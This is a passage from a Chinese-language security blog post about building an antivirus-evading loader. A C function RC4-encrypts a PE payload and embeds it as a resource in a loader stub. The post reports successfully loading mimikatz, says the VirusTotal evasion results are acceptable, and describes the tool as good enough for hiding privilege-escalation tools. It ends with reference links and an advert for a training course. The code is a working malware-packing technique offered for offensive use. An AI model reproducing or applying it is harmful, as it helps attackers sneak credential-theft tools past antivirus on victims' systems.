 ### 程序加密

使用了 RC4 加密算法，将要加载的 PE 文件加密并存放在资源段中，这种方法其实免杀效果并不好，接下来可以考虑其他将 Loader 和 payload 分离的其他方法。

```
int commanMake(TCHAR* filePath, TCHAR* outfilePath, int BIT){ TCHAR* DATfilename; if (BIT == 32) {  DATfilename = L"x32PEloader.DAT"; } else if (BIT == 64) {  DATfilename = L"x64PEloader.DAT"; } else {  return 0; } HANDLE hPE = CreateFile(filePath, GENERIC_READ, FILE_SHARE_READ, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL); if (hPE == INVALID_HANDLE_VALUE) {  wprintf(L"[!]  Unable to Open FIle %s\n", filePath);  CloseHandle(hPE);  return 0; } unsigned char* key = GeneratePassword(128);  int peSize = GetFileSize(hPE, NULL); PBYTE shellcode = (PBYTE)malloc(peSize + StreamKeyLenth); if (shellcode == NULL) {  return 0; } memcpy(shellcode, key, StreamKeyLenth); DWORD lpNumberOfBytesRead; PWCHAR fileName = outfilePath; int ret = ReadFile(hPE, shellcode + StreamKeyLenth, peSize, &lpNumberOfBytesRead, NULL); if (ret == 0) {  return 0; } StreamCrypt(shellcode + StreamKeyLenth, peSize, key, StreamKeyLenth);  if (CopyFile(DATfilename, fileName, FALSE) == 0) {  wprintf(L"[!]  Unable to Open FIle PEloader.DAT\n");  return 0; }  HANDLE  hResource = BeginUpdateResource(fileName, FALSE);  if (NULL != hResource) {  if (UpdateResource(hResource, RT_RCDATA, MAKEINTRESOURCE(404), MAKELANGID(LANG_NEUTRAL, SUBLANG_DEFAULT), (LPVOID)shellcode, peSize + sizeof(key)) != FALSE)  {   EndUpdateResource(hResource, FALSE);   wprintf(L"[+]  Successfully generated %s\n", fileName);  } } free(shellcode); CloseHandle(hPE); return 1;}
```

### 成品效果

对 x64 的 mimikatz 进行加载器生成，功能正常。

![](https://mmbiz.qpic.cn/mmbiz_png/cOCqjucntdGPfpTtbeLjNIVIWpDq6YQUiaQ3gyAt4tteS53wQVWwMJIQ1eUzVQlwINVyfhdkibM3fYe6Nxv4Qa9A/640?wx_fmt=png)

  

上传 VT 结果，免杀效果还凑活，针对国外杀软需要继续改进，目前免杀一些常用的提权工具完全够用。相关代码及工具上传至知识星球。

![](https://mmbiz.qpic.cn/mmbiz_png/cOCqjucntdGPfpTtbeLjNIVIWpDq6YQU3kFIgHPvHnrZdibHuCMwhnicA6HMQ7nwSs9KsPLdyPicKmt6aHOtebW6Q/640?wx_fmt=png)

  

参考文章和项目
-------

https://blog.csdn.net/kclax/article/details/93727011

https://bbs.pediy.com/thread-249133.htm

https://github.com/TheWover/donut

https://www.cnblogs.com/onetrainee/p/12938085.html

号外  

-----

宽字节安全团队第一期线下网络安全就业班 7 月 1 日开班了，由宽字节安全团队独立运营，一线红队大佬带队，有丰富的漏洞研究、渗透测试、应急响应的经验与沉淀，干货多多，欢迎添加客服咨询。

[点击查看详情](https://mp.weixin.qq.com/s?__biz=MzUzNTEyMTE0Mw==&mid=2247484744&idx=1&sn=705508138f99f87f5111289e5e68a344&scene=21#wechat_redirect)

客服微信：unicodesec

![](https://mmbiz.qpic.cn/mmbiz_jpg/cOCqjucntdEhsMUjTPslVricKT94iaKpb5sL2PolmEf1WwcEEuwFaIGL9U3ePh1KXDDK8yggpMPHwDUibcn5b17wg/640?wx_fmt=jpeg)